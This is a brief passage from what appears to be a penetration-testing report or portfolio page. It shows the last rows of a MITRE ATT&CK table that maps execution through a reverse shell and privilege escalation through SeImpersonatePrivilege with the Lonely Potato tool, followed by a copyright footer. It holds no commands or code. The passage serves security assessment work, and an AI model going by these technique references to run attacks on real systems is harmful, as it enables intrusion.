| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (SeImpersonatePrivilege + Lonely Potato) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
